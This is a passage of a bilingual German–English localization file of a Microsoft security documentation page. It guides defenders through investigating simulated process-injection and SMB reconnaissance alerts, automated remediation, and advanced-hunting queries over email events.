<span data-ttu-id="05c82-210">Microsoft Defender ATP-Erkennungen Zielen häufig auf das häufigste Attribut einer Angriffstechnik ab.</span><span class="sxs-lookup"><span data-stu-id="05c82-210">Microsoft Defender ATP detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="05c82-211">Dadurch wird die Dauerhaftigkeit gewährleistet und die Messlatte für Angreifer erhöht, um auf neuere Taktiken umzusteigen.</span><span class="sxs-lookup"><span data-stu-id="05c82-211">This ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="05c82-212">Wir verwenden umfangreiche Lernalgorithmen, um das normale Verhalten allgemeiner Prozesse in einer Organisation und weltweit zu etablieren und zu beobachten, wann diese Prozesse anomale Verhaltensweisen aufweisen.</span><span class="sxs-lookup"><span data-stu-id="05c82-212">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes exhibit anomalous behaviors.</span></span> <span data-ttu-id="05c82-213">Diese anomalen Verhaltensweisen deuten häufig darauf hin, dass fremder Code eingeführt wurde und in einem ansonsten vertrauenswürdigen Prozess ausgeführt wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-213">These anomalous behaviors often indicate that extraneous code was introduced and is running in an otherwise trusted process.</span></span>

<span data-ttu-id="05c82-214">In diesem Szenario weist das Prozess <i>notepad.exe</i> ein anormales Verhalten auf, das die Kommunikation mit einem externen Speicherort unter Beteiligung betrifft.</span><span class="sxs-lookup"><span data-stu-id="05c82-214">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="05c82-215">Dieses Ergebnis ist unabhängig von der spezifischen Methode, mit der der bösartige Code eingeführt und ausgeführt wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-215">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

>[!NOTE]
><span data-ttu-id="05c82-216">Da diese Warnung auf Computer Lernmodellen basiert, die eine zusätzliche Back-End-Verarbeitung erfordern, kann es einige Zeit dauern, bis diese Warnung im Portal angezeigt wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-216">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="05c82-217">Beachten Sie, dass die Warnungsdetails die externe IP-Adresse enthalten – ein Indikator, den Sie als Pivot zum Erweitern der Untersuchung verwenden können.</span><span class="sxs-lookup"><span data-stu-id="05c82-217">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="05c82-218">Klicken Sie in der Struktur des Warnungs Prozesses auf die IP-Adresse, um die Seite IP-Adressdetails anzuzeigen.</span><span class="sxs-lookup"><span data-stu-id="05c82-218">Click the IP address in the alert process tree to view the IP address details page.</span></span>

 

<span data-ttu-id="05c82-220">In der folgenden Abbildung wird die ausgewählte IP-Adress Detailseite (Klicken auf IP-Adresse in der Warnungs Prozessstruktur) angezeigt.</span><span class="sxs-lookup"><span data-stu-id="05c82-220">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="05c82-221"></span><span class="sxs-lookup"><span data-stu-id="05c82-221"></span></span>


<span data-ttu-id="05c82-222">**Warnung: Benutzer-und IP-Adress Aufklärung (SMB) (Quelle: Azure ATP)**</span><span class="sxs-lookup"><span data-stu-id="05c82-222">**Alert: User and IP address reconnaissance (SMB) (Source: Azure ATP)**</span></span>

<span data-ttu-id="05c82-223">Aufzählung mit dem SMB-Protokoll (Server Message Block) können Angreifer aktuelle Benutzeranmeldeinformationen abrufen, die Sie beim seitlichen Übergang über das Netzwerk zum Zugriff auf ein bestimmtes vertrauliches Konto unterstützen.</span><span class="sxs-lookup"><span data-stu-id="05c82-223">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="05c82-224">Bei dieser Erkennung wird eine Warnung ausgelöst, wenn die SMB-Sitzungs Aufzählung für einen Domänencontroller ausgeführt wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-224">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a><span data-ttu-id="05c82-226">Überprüfen der Geräte Zeitachse [Microsoft Defender ATP]</span><span class="sxs-lookup"><span data-stu-id="05c82-226">Review the device timeline [Microsoft Defender ATP]</span></span>
<span data-ttu-id="05c82-227">Nachdem Sie die verschiedenen Warnungen in diesem Vorfall untersucht haben, navigieren Sie zurück zur Vorfall Seite, die Sie zuvor untersucht haben.</span><span class="sxs-lookup"><span data-stu-id="05c82-227">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="05c82-228">Klicken Sie auf der Seite Vorfall auf die Registerkarte **Geräte** , um die an diesem Vorfall beteiligten Geräte zu überprüfen, die von Microsoft Defender ATP und Azure ATP gemeldet wurden.</span><span class="sxs-lookup"><span data-stu-id="05c82-228">Click the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender ATP and Azure ATP.</span></span>

<span data-ttu-id="05c82-229">Klicken Sie auf den Namen des Geräts, in dem der Angriff durchgeführt wurde, um die Entitäts Seite für das jeweilige Gerät zu öffnen.</span><span class="sxs-lookup"><span data-stu-id="05c82-229">Click the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="05c82-230">Auf dieser Seite können Sie Warnungen anzeigen, die ausgelöst wurden, und ähnliche Ereignisse.</span><span class="sxs-lookup"><span data-stu-id="05c82-230">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="05c82-231">Klicken Sie auf die Registerkarte **Zeitachse** , um die Geräte Zeitachse zu öffnen und alle Ereignisse und Verhaltensweisen anzuzeigen, die auf dem Gerät in chronologischer Reihenfolge mit den ausgelösten Warnungen beobachtet wurden.</span><span class="sxs-lookup"><span data-stu-id="05c82-231">Click the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>

 

<span data-ttu-id="05c82-233">Das erweitern einiger interessanter Verhaltensweisen bietet nützliche Details wie Prozess Bäume.</span><span class="sxs-lookup"><span data-stu-id="05c82-233">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="05c82-234">Scrollen Sie beispielsweise nach unten, bis Sie das Warnungsereignis " **verdächtige Prozess Injektion beobachtet**" finden.</span><span class="sxs-lookup"><span data-stu-id="05c82-234">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="05c82-235">Klicken Sie auf die **powershell.exe injiziert zu notepad.exe Prozess** Ereignis darunter, um die vollständige Prozessstruktur für dieses Verhalten unter dem Diagramm " **Ereignis Entitäten** " im Seitenbereich anzuzeigen.</span><span class="sxs-lookup"><span data-stu-id="05c82-235">Click the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="05c82-236">Verwenden Sie die Suchleiste für die Filterung, falls erforderlich.</span><span class="sxs-lookup"><span data-stu-id="05c82-236">Use the search bar for filtering if necessary.</span></span>


### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="05c82-238">Überprüfen der Benutzerinformationen [Microsoft Cloud App security]</span><span class="sxs-lookup"><span data-stu-id="05c82-238">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="05c82-239">Klicken Sie auf der Seite Vorfall auf die Registerkarte **Benutzer** , um die Liste der Benutzer anzuzeigen, die an dem Angriff beteiligt sind.</span><span class="sxs-lookup"><span data-stu-id="05c82-239">On the incident page, click the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="05c82-240">Die Tabelle enthält zusätzliche Informationen zu den einzelnen Benutzern, einschließlich der **Untersuchung der Priorität** der einzelnen Benutzer.</span><span class="sxs-lookup"><span data-stu-id="05c82-240">The table contains additional information about each user, including each user’s **Investigation Priority** score.</span></span>

<span data-ttu-id="05c82-241">Klicken Sie auf den Benutzernamen, um die Profilseite des Benutzers zu öffnen, auf der weitere Untersuchungen durchgeführt werden können.</span><span class="sxs-lookup"><span data-stu-id="05c82-241">Click the username to open the user’s profile page where further investigation can be conducted.</span></span> <span data-ttu-id="05c82-242">[Lesen Sie mehr über die Untersuchung riskanter Benutzer](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span><span class="sxs-lookup"><span data-stu-id="05c82-242">[Read more about investigating risky users](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span></span>
<br>
<span data-ttu-id="05c82-243"></span><span class="sxs-lookup"><span data-stu-id="05c82-243"></span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="05c82-244">Automatische Untersuchung und Reaktion</span><span class="sxs-lookup"><span data-stu-id="05c82-244">Automated investigation and remediation</span></span>
>[!NOTE]
><span data-ttu-id="05c82-245">Bevor Sie diese Simulation durchlaufen, sehen Sie sich das folgende Video an, um sich mit der automatischen Selbstheilung vertraut zu machen, wo Sie Sie im Portal finden und wie Sie in ihren sicherheitsvorgängen helfen kann:</span><span class="sxs-lookup"><span data-stu-id="05c82-245">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="05c82-246">Navigieren Sie zurück zu dem Vorfall im Microsoft 365-Sicherheits Center-Portal.</span><span class="sxs-lookup"><span data-stu-id="05c82-246">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="05c82-247">Die Registerkarte unter **suchungen** auf der Seite **Vorfall** zeigt die automatisierten Untersuchungen, die von Azure ATP und Microsoft Defender ATP ausgelöst wurden.</span><span class="sxs-lookup"><span data-stu-id="05c82-247">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Azure ATP and Microsoft Defender ATP.</span></span> <span data-ttu-id="05c82-248">Im folgenden Screenshot wird nur die automatische Untersuchung angezeigt, die von Microsoft Defender ATP ausgelöst wurde.</span><span class="sxs-lookup"><span data-stu-id="05c82-248">The screenshot below displays only the automated investigation triggered by Microsoft Defender ATP.</span></span> <span data-ttu-id="05c82-249">Standardmäßig korrigiert Microsoft Defender ATP automatisch die in der Warteschlange gefundenen Artefakte, die eine Korrektur erfordern.</span><span class="sxs-lookup"><span data-stu-id="05c82-249">By default, Microsoft Defender ATP automatically remediates the artifacts found in the queue which requires remediation.</span></span>


<span data-ttu-id="05c82-251">Klicken Sie auf die Warnung, die eine Untersuchung ausgelöst hat, um die Seite **Ermittlungs Details** zu öffnen.</span><span class="sxs-lookup"><span data-stu-id="05c82-251">Click the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="05c82-252">Folgendes wird angezeigt:</span><span class="sxs-lookup"><span data-stu-id="05c82-252">You’ll see the following:</span></span>
- <span data-ttu-id="05c82-253">Warnung (en), die die automatische Untersuchung ausgelöst haben.</span><span class="sxs-lookup"><span data-stu-id="05c82-253">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="05c82-254">Betroffene Benutzer und Geräte.</span><span class="sxs-lookup"><span data-stu-id="05c82-254">Impacted users and devices.</span></span> <span data-ttu-id="05c82-255">Wenn auf zusätzlichen Geräten Indikatoren gefunden werden, werden diese zusätzlichen Geräte ebenfalls aufgeführt.</span><span class="sxs-lookup"><span data-stu-id="05c82-255">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="05c82-256">Liste der Beweise.</span><span class="sxs-lookup"><span data-stu-id="05c82-256">List of evidence.</span></span> <span data-ttu-id="05c82-257">Die gefundenen und analysierten Entitäten, beispielsweise Dateien, Prozesse, Dienste, Treiber und Netzwerkadressen.</span><span class="sxs-lookup"><span data-stu-id="05c82-257">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="05c82-258">Diese Entitäten werden für mögliche Beziehungen mit der Warnung analysiert und als gutartig oder böswillig bewertet.</span><span class="sxs-lookup"><span data-stu-id="05c82-258">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="05c82-259">Gefundene Bedrohungen.</span><span class="sxs-lookup"><span data-stu-id="05c82-259">Threats found.</span></span> <span data-ttu-id="05c82-260">Bekannte Bedrohungen, die während der Untersuchung gefunden werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-260">Known threats that are found during the investigation.</span></span>

>[!NOTE]
><span data-ttu-id="05c82-261">Je nach Zeitplan wird die automatische Untersuchung möglicherweise weiterhin durchführen.</span><span class="sxs-lookup"><span data-stu-id="05c82-261">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="05c82-262">Warten Sie einige Minuten, bis der Vorgang abgeschlossen ist, bevor Sie die Beweise sammeln und analysieren und die Ergebnisse überprüfen.</span><span class="sxs-lookup"><span data-stu-id="05c82-262">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="05c82-263">Aktualisieren Sie die Seite **Ermittlungs Details** , um die neuesten Ergebnisse zu erhalten.</span><span class="sxs-lookup"><span data-stu-id="05c82-263">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="05c82-265">Während der automatischen Untersuchung hat Microsoft Defender ATP den notepad.exe Prozess identifiziert, der als eines der Artefakte, die eine Korrektur erfordern, injiziert wurde.</span><span class="sxs-lookup"><span data-stu-id="05c82-265">During the automated investigation, Microsoft Defender ATP identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="05c82-266">Microsoft Defender ATP stoppt die verdächtige Prozess Injektion automatisch als Teil der automatischen Behebung.</span><span class="sxs-lookup"><span data-stu-id="05c82-266">Microsoft Defender ATP automatically stops the suspicious process injection as part of the automated remediation.</span></span> 

<span data-ttu-id="05c82-267">In der Liste der ausgeführten Prozesse auf dem Testgerät sehen Sie <i>notepad.exe</i> ausgeblendet werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-267">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="05c82-268">Beheben des Vorfalls</span><span class="sxs-lookup"><span data-stu-id="05c82-268">Resolve the incident</span></span>

<span data-ttu-id="05c82-269">Schließen Sie den Vorfall, nachdem die Untersuchung abgeschlossen und zur Korrektur bestätigt wurde.</span><span class="sxs-lookup"><span data-stu-id="05c82-269">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="05c82-270">Klicken Sie auf **Vorfall verwalten**.</span><span class="sxs-lookup"><span data-stu-id="05c82-270">Click **Manage incident**.</span></span> <span data-ttu-id="05c82-271">Legen Sie den Status auf **Vorfall auflösen** fest, und wählen Sie die entsprechende Klassifizierung aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-271">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="05c82-272">Nachdem der Vorfall behoben wurde, werden alle zugehörigen Warnungen im Microsoft 365 Security Center und in den dazugehörigen Portalen geschlossen.</span><span class="sxs-lookup"><span data-stu-id="05c82-272">Once the incident is resolved, it will close all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>

 

<br>
<span data-ttu-id="05c82-274">Dadurch wird die Angriffssimulation für die Szenarien "Incident Management" und "Automated Investigation and Remediation" umgebrochen.</span><span class="sxs-lookup"><span data-stu-id="05c82-274">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="05c82-275">Die nächste Simulation führt Sie durch proaktive Bedrohungs Suche für potenziell schädliche Dateien.</span><span class="sxs-lookup"><span data-stu-id="05c82-275">The next simulation will take you through proactive threat hunting for potentially-malicious files.</span></span> 

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="05c82-276">Erweitertes Jagd Szenario</span><span class="sxs-lookup"><span data-stu-id="05c82-276">Advanced hunting scenario</span></span>

>[!NOTE]
><span data-ttu-id="05c82-277">Bevor Sie die Simulation durchlaufen, sehen Sie sich das folgende Video an, um sich mit den erweiterten Jagd Konzepten vertraut zu machen, sehen Sie, wo Sie es im Portal finden können, und erfahren Sie, wie Sie Sie bei ihren sicherheitsvorgängen unterstützen können:</span><span class="sxs-lookup"><span data-stu-id="05c82-277">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="05c82-278">Anforderungen an die Jagd Umgebung</span><span class="sxs-lookup"><span data-stu-id="05c82-278">Hunting environment requirements</span></span>
<span data-ttu-id="05c82-279">Für dieses Szenario ist ein einzelnes internes Postfach und Gerät erforderlich.</span><span class="sxs-lookup"><span data-stu-id="05c82-279">There is a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="05c82-280">Sie benötigen auch ein externes e-Mail-Konto, um die Testnachricht zu senden.</span><span class="sxs-lookup"><span data-stu-id="05c82-280">You will also need an external email account to send the test message.</span></span>

1.  <span data-ttu-id="05c82-281">Stellen Sie sicher, dass [Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)von Ihrem Mandanten aktiviert wurde.</span><span class="sxs-lookup"><span data-stu-id="05c82-281">Verify that your tenant has [enabled Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2.  <span data-ttu-id="05c82-282">Identifizieren Sie ein Zielpostfach, das für den Empfang von e-Mails verwendet werden soll.</span><span class="sxs-lookup"><span data-stu-id="05c82-282">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="05c82-283">a.</span><span class="sxs-lookup"><span data-stu-id="05c82-283">a.</span></span>  <span data-ttu-id="05c82-284">Dieses Postfach muss von Office 365 ATP b überwacht werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-284">This mailbox must be monitored by Office 365 ATP b.</span></span>  <span data-ttu-id="05c82-285">Das Gerät aus Anforderung 3 muss auf dieses Postfach zugreifen.</span><span class="sxs-lookup"><span data-stu-id="05c82-285">The device from requirement 3 needs to access this mailbox</span></span>
3.  <span data-ttu-id="05c82-286">Konfigurieren eines Testgeräts: a.</span><span class="sxs-lookup"><span data-stu-id="05c82-286">Configure a test device: a.</span></span>  <span data-ttu-id="05c82-287">Stellen Sie sicher, dass Sie die Windows 10-Version 1903 oder höher verwenden.</span><span class="sxs-lookup"><span data-stu-id="05c82-287">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="05c82-288">b.</span><span class="sxs-lookup"><span data-stu-id="05c82-288">b.</span></span>  <span data-ttu-id="05c82-289">Verbinden Sie das Test Gerät mit der Testdomäne.</span><span class="sxs-lookup"><span data-stu-id="05c82-289">Join the test device to the test domain.</span></span>
    <span data-ttu-id="05c82-290">c.</span><span class="sxs-lookup"><span data-stu-id="05c82-290">c.</span></span>  <span data-ttu-id="05c82-291">[Aktivieren Sie Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="05c82-291">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="05c82-292">Wenn Sie Probleme beim Aktivieren von Windows Defender Antivirus haben, lesen Sie [dieses Thema zur Problembehandlung](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="05c82-292">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="05c82-293">d.</span><span class="sxs-lookup"><span data-stu-id="05c82-293">d.</span></span>  <span data-ttu-id="05c82-294">[Onboard bei Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="05c82-294">[Onboard to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="05c82-295">Ausführen der Simulation</span><span class="sxs-lookup"><span data-stu-id="05c82-295">Run the simulation</span></span>
1.  <span data-ttu-id="05c82-296">Senden Sie von einem externen e-Mail-Konto eine e-Mail an das im Abschnitt Schritt 2 der testumgebungsanforderungen angegebene Postfach.</span><span class="sxs-lookup"><span data-stu-id="05c82-296">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="05c82-297">Schließen Sie eine Anlage ein, die über alle vorhandenen e-Mail-Filterrichtlinien zugelassen wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-297">Include an attachment that will be allowed through any existing email filter policies.</span></span>  <span data-ttu-id="05c82-298">Diese Datei muss nicht bösartig oder eine ausführbare Datei sein.</span><span class="sxs-lookup"><span data-stu-id="05c82-298">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="05c82-299">Vorgeschlagene Dateitypen sind <i>. PDF</i>, <i>. exe</i> (sofern zulässig) oder Office-Dokument wie eine Word-Datei.</span><span class="sxs-lookup"><span data-stu-id="05c82-299">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2.  <span data-ttu-id="05c82-300">Öffnen Sie die gesendete e-Mail von dem Gerät, das gemäß der Definition in Schritt 3 des Abschnitts testumgebungsanforderungen konfiguriert ist.</span><span class="sxs-lookup"><span data-stu-id="05c82-300">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="05c82-301">Öffnen Sie die Anlage entweder, oder speichern Sie die Datei auf dem Gerät.</span><span class="sxs-lookup"><span data-stu-id="05c82-301">Either open the attachment or save the file to the device.</span></span>


<span data-ttu-id="05c82-302">**Jagd gehen**</span><span class="sxs-lookup"><span data-stu-id="05c82-302">**Go hunting**</span></span>
1.  <span data-ttu-id="05c82-303">Öffnen Sie das Security.Microsoft.com-Portal.</span><span class="sxs-lookup"><span data-stu-id="05c82-303">Open the security.microsoft.com portal.</span></span>
2.  <span data-ttu-id="05c82-304">Navigieren Sie zu **Hunting > Advanced Hunting**.</span><span class="sxs-lookup"><span data-stu-id="05c82-304">Navigate to **Hunting > Advanced hunting**.</span></span>

     

3.  <span data-ttu-id="05c82-306">Erstellen Sie eine Abfrage, die mit dem Erfassen von e-Mail-Ereignissen beginnt.</span><span class="sxs-lookup"><span data-stu-id="05c82-306">Build a query that starts by gathering email events.</span></span>
    <span data-ttu-id="05c82-307">a.</span><span class="sxs-lookup"><span data-stu-id="05c82-307">a.</span></span>  <span data-ttu-id="05c82-308">Wählen Sie im Bereich Abfrage die Option neu aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-308">From the query pane, select New.</span></span>
    <span data-ttu-id="05c82-309">b.</span><span class="sxs-lookup"><span data-stu-id="05c82-309">b.</span></span>  <span data-ttu-id="05c82-310">Doppelklicken Sie auf die EmailEvents-Tabelle aus dem Schema.</span><span class="sxs-lookup"><span data-stu-id="05c82-310">Double-click on the EmailEvents table from the schema.</span></span>

```
EmailEvents 
```                                        

   <span data-ttu-id="05c82-311">c.</span><span class="sxs-lookup"><span data-stu-id="05c82-311">c.</span></span>   <span data-ttu-id="05c82-312">Ändern Sie den Zeitrahmen in die letzten 24 Stunden.</span><span class="sxs-lookup"><span data-stu-id="05c82-312">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="05c82-313">Angenommen, die e-Mail, die Sie beim Ausführen der obigen Simulation gesendet haben, war in den letzten 24 Stunden, andernfalls ändern Sie den Zeitrahmen.</span><span class="sxs-lookup"><span data-stu-id="05c82-313">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>
   <span data-ttu-id="05c82-314"></span><span class="sxs-lookup"><span data-stu-id="05c82-315">Open the drop-down menu to choose from range of time frame options](../../media/mtp/fig18.png)</span></span> 


   <span data-ttu-id="05c82-316">d.</span><span class="sxs-lookup"><span data-stu-id="05c82-316">d.</span></span>   <span data-ttu-id="05c82-317">Führen Sie die Abfrage aus.</span><span class="sxs-lookup"><span data-stu-id="05c82-317">Run the query.</span></span>  <span data-ttu-id="05c82-318">Je nach Umgebung für das Pilotprojekt haben Sie möglicherweise viele Ergebnisse.</span><span class="sxs-lookup"><span data-stu-id="05c82-318">You may have many results depending on the environment for the pilot.</span></span>  

>[!NOTE]
><span data-ttu-id="05c82-319">Weitere Informationen finden Sie im nächsten Schritt zum Filtern von Optionen zum Einschränken der Datenrückgabe.</span><span class="sxs-lookup"><span data-stu-id="05c82-319">See the next step for filtering options to limit data return.</span></span>

    

>[!NOTE]
><span data-ttu-id="05c82-321">Erweiterte Suche zeigt Abfrageergebnisse als tabellarische Daten an.</span><span class="sxs-lookup"><span data-stu-id="05c82-321">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="05c82-322">Sie können auch entscheiden, die Daten in anderen Formattypen wie Diagrammen anzuzeigen.</span><span class="sxs-lookup"><span data-stu-id="05c82-322">You can also opt to view the data in other format types such as charts.</span></span>    

   <span data-ttu-id="05c82-323">e.</span><span class="sxs-lookup"><span data-stu-id="05c82-323">e.</span></span>   <span data-ttu-id="05c82-324">Sehen Sie sich die Ergebnisse an, und prüfen Sie, ob Sie die geöffnete e-Mail identifizieren können.</span><span class="sxs-lookup"><span data-stu-id="05c82-324">Look at the results and see if you can identify the email you opened.</span></span>  <span data-ttu-id="05c82-325">Es kann bis zu 2 Stunden dauern, bis die Nachricht in Advanced Hunting angezeigt wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-325">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="05c82-326">Wenn die e-Mail-Umgebung groß ist und viele Ergebnisse vorliegen, möchten Sie möglicherweise die **Option Filter anzeigen** verwenden, um nach der Nachricht zu suchen.</span><span class="sxs-lookup"><span data-stu-id="05c82-326">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span> 

   <span data-ttu-id="05c82-327">Im Beispiel wurde die e-Mail von einem Yahoo-Konto gesendet.</span><span class="sxs-lookup"><span data-stu-id="05c82-327">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="05c82-328">Klicken Sie auf das **+** Symbol neben **Yahoo.com** im Abschnitt SenderFromDomain, und klicken Sie dann auf über **nehmen** , um die ausgewählte Domäne zur Abfrage hinzuzufügen.</span><span class="sxs-lookup"><span data-stu-id="05c82-328">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span>  <span data-ttu-id="05c82-329">Sie sollten die Domäne oder das e-Mail-Konto verwenden, das zum Senden der Testnachricht in Schritt 1 von Ausführen der Simulation verwendet wurde, um die Ergebnisse zu filtern.</span><span class="sxs-lookup"><span data-stu-id="05c82-329">You should use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span>  <span data-ttu-id="05c82-330">Führen Sie die Abfrage erneut aus, um ein kleineres Resultset zu erhalten, um zu überprüfen, ob die Nachricht aus der Simulation angezeigt wird.</span><span class="sxs-lookup"><span data-stu-id="05c82-330">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>
   
    


```
EmailEvents 
| where SenderMailFromDomain == "yahoo.com"
```

   <span data-ttu-id="05c82-333">f.</span><span class="sxs-lookup"><span data-stu-id="05c82-333">f.</span></span>   <span data-ttu-id="05c82-334">Klicken Sie auf die resultierenden Zeilen aus der Abfrage, damit Sie den Datensatz überprüfen können.</span><span class="sxs-lookup"><span data-stu-id="05c82-334">Click the resulting rows from the query so you can inspect the record.</span></span>
   <span data-ttu-id="05c82-335"></span><span class="sxs-lookup"><span data-stu-id="05c82-335"></span></span> 


4.  <span data-ttu-id="05c82-336">Nachdem Sie nun überprüft haben, dass die e-Mail angezeigt werden kann, fügen Sie einen Filter für die Anlagen hinzu.</span><span class="sxs-lookup"><span data-stu-id="05c82-336">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="05c82-337">Konzentrieren Sie sich auf alle e-Mails mit Anlagen in der Umgebung.</span><span class="sxs-lookup"><span data-stu-id="05c82-337">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="05c82-338">Konzentrieren Sie sich in diesem Szenario auf eingehende e-Mails, nicht auf diejenigen, die aus Ihrer Umgebung gesendet werden.</span><span class="sxs-lookup"><span data-stu-id="05c82-338">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="05c82-339">Entfernen Sie alle Filter, die Sie zum Auffinden Ihrer Nachricht hinzugefügt haben, und fügen Sie "| wobei **AttachmentCount > 0** und **EmailDirection**  ==  **"eingehend"** "</span><span class="sxs-lookup"><span data-stu-id="05c82-339">Remove any filters you have added to locate your message and add “| where **AttachmentCount > 0** and **EmailDirection** == **“Inbound””**</span></span>

<span data-ttu-id="05c82-340">In der folgenden Abfrage wird das Ergebnis mit einer kürzeren Liste als die anfängliche Abfrage für alle e-Mail-Ereignisse angezeigt:</span><span class="sxs-lookup"><span data-stu-id="05c82-340">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"

```

